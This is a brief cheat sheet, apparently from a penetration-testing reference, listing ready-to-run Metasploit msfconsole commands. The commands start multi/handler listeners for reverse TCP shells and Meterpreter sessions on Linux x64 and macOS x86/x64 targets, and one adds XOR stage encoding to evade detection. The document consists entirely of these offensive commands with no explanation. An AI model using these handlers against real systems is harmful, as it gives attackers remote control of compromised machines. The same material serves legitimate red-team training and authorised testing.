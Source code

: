 ## Metasploit Handler - Linux TCP 64-bit (staged, encoded xor)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost|tun0>; set lport <lport|443>; set payload linux/x64/meterpreter/reverse_tcp; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; exploit"
```

## Metasploit Handler - macOS TCP 32-bit (staged)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport>; set payload osx/x86/shell_reverse_tcp; exploit"
```

## Metasploit Handler - macOS TCP 64-bit (staged)
```
msfconsole -x "use exploits/multi/handler; set lhost <lhost>; set lport <lport>; set payload osx/x64/shell_reverse_tcp; exploit"
```